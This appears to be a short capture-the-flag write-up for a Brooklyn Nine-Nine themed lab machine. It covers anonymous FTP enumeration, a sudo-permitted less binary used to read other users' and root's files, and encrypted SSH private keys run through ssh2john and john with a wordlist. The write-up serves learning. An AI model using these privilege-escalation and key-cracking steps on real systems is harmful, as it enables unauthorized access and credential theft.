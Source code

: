 # what I learned
- nothing...
# enumerating
- 21/tcp open  ftp
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
```
the file contains
```console
kali@kali:~/THM/B99$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nin nine
```
- 22/tcp open  ssh
- 80/tcp open  http
  - Apache/2.4.29 (Ubuntu)
  - a stegano picture?
# foothold
```console
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
https://gtfobins.github.io/gtfobins/less/

```console
jake@brookly_nine_nine:~$ less /home/amy/.
./            .bash_logout  .cache/       .profile      
../           .bashrc       .gnupg/       .ssh/         
jake@brookly_nine_nine:~$ less /home/holt/
.bash_history  .bashrc        .gnupg/        .profile       nano.save      
.bash_logout   .cache/        .local/        .ssh/          user.txt       
jake@brookly_nine_nine:~$ less /home/holt/user.txt
```
* amy
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8A45EF5CE95F44B523FBD6AEEAD2B9E6

//MOmD5ttJ6rTXqLiBtvOmCcXLWmgexGwQZc2sy6P9mVlh9nUD2g2gN/SwyOIOzo
pWBjAatk7qpqwbsGDstQsKErCDGCH/qjF49zG1meMNbzxFQAT5vOxGM/0oYJwD9F
BKeRcOqY0vKjiJz0Wf9ZA3+CF3xdjNvVhneGe3BE1jEX2J3+sGZ0qiNLkYn6Mw+h
p0TrrdkFQiDR5X+rbfL+EgFYCwOanABkK+FzptbXB0ABte7L+PSICvZKsCn/yo6z
fxraAZ0nJejWQEYEH99o7T7uHkR+CZSD8gWPBsaP8pfPJSeKR9LzXG3MOWGc+5/p
gZBPQI5EwbUaWtnwEKqzTqT1G/+iYps8ExqUGj9lZWPnwNAEnWXiKJfTZF2lJyqz
-----END RSA PRIVATE KEY-----
```
**jake1**

* holt
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7FEB01DFD04064BFFC03CBB293CEF0F9
8rta3aQd8iUsjaUJ7S+j4wUbMhIGhWaSFOwuyDvKOfTEuFpNSv5DkA/p6D7qcBIE
eApPx3ASu2agU8IRvq0Z6IuWw1rvprmiXyBWCQ9NBOjIo4dnL6cLE+UmVmQThxst
hnxQNnTVZlFLdM5mJjNyzCyfsdvyu5QxsDfEtTCLBH3P8ittfeSWv1WlF0b6nkUO
-----END RSA PRIVATE KEY-----
```
**kevin**

```console
kali@kali:~/THM/B99$ nano holt.txt
kali@kali:~/THM/B99$ sudo /usr/share/john/ssh2john.py holt.txt > holt-for-john.txt
kali@kali:~/THM/B99$ sudo /usr/share/john/ssh2john.py amy.txt > amy-for-john.txt
root@kali:~# john /home/kali/THM/B99/holt-for-john.txt -wordlist=/usr/share/wordlists/rockyou.txt # holt
root@kali:~# john /home/kali/THM/B99/amy-for-john.txt -wordlist=/usr/share/wordlists/rockyou.txt # amy
kali@kali:~/THM/B99$ openssl rsa -in amy.txt -out amy_id_rsa
kali@kali:~/THM/B99$ openssl rsa -in holt.txt -out holt_id_rsa
```
but fuq... didnt works, 

# root
```console
jake@brookly_nine_nine:~$ less /root/root.txt
```

# PS 
- There are two main intended ways to root the box.
  - I only solved 1